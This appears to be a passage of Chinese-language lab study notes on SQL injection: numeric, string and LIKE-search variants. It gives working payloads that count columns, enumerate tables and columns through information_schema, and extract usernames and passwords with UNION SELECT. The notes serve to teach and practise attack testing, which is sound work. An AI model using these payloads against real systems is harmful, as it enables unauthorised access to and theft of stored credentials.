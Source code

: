 post、数字型：1 and 1=1 #正常回显；1 and 1=2 #非正常

如图

![](https://i.loli.net/2021/02/13/pC2H5kLJMeocsWv.png)

```
id=-1 order by 1,2		#判断字段数
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+		#爆表名
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'--+			#爆列名
id=-1 union select 1,group_concat(username,0x2b,password) from users--+			#爆数据

```

![](https://i.loli.net/2021/02/13/tPZqCKzXlvcyROn.png)





### 字符型注入

get、字符型：id=1' #保错，id=1' --+ # 正常

```
?name=1' order by 2--+
?name=1' union select 1,2--+
?name=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+		#爆表名
?name=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'--+			#爆列名
?name=-1' union select 1,group_concat(username,0x2b,password) from users--+			#爆数据

```

![](https://i.loli.net/2021/02/13/8m4BP6V2GSRJoig.png)

### 搜索型注入

后端的sql查询语句使用了模糊差异如 `select id form 某表 like ' %xxx% '`

payload的构造：实际是将其通配符%闭合，

eg：

```
xx%' or 1=1 #   

传到后端的完整语句为：select id form 某表 like ' %xx%' or 1=1 #% '

' and 1=1 and '%'='

传到后端的完整语句为：select id form 某表 like '%' and 1=1 and '%'='%'
```
